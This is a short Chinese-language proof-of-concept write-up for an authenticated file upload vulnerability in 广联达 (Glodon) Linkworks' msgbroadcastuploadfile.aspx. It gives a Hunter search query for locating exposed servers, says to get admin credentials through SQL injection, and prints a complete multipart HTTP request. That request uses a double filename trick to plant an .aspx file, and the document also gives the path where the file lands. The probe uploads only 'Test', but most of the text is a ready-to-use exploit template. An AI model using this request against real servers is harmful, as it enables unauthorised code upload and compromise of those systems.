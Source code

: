 # 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 网络测绘

hunter: web.body="/Services/Identification/"

## POC / EXP

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

```
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```